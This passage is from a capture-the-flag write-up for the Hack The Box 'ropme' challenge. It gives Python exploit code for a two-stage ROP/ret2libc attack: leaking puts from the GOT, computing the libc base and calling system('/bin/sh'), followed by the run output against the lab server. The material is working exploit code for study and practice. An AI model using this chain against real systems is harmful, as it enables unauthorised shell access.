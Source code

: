 ```Python
    print "Address of system: ", hex(libc_base + 0x45390)
    print "Address of binsh: ", hex(libc_base + 0x18cd57)

    # Craft new payload
    payload2 = PAD                      # 72 bytes of "A"s
    payload2 += gadget_pop_rdi_ret      # return there when done with main

    # address of "/bin/sh", this will be popped to RDI
    payload2 += ptr(libc_base + 0x18cd57)

    # Address of system. return here after you pop
    payload2 += ptr(libc_base + 0x45390)    


    # Send the payload
    conn.send(payload2 + "\n")

    # Get back an answer, we expect that system("/bin/sh") will run
    print conn.recv(1024)



PAD = "A" * 72

main_addr = ptr(0x400626)
gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

payload += main_addr            # After the fflush, go to main again
                                # Ask the attacker for input again!

remote(payload)
```

This is what we get:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
Virtual address of puts is: 0x7f96309ad690
Base of libc: 0x7f963093e000
Address of system:  0x7f9630983390
Address of binsh:  0x7f9630acad57
sh: 1: %s%s%s%s%s%s%s%s: not found
```

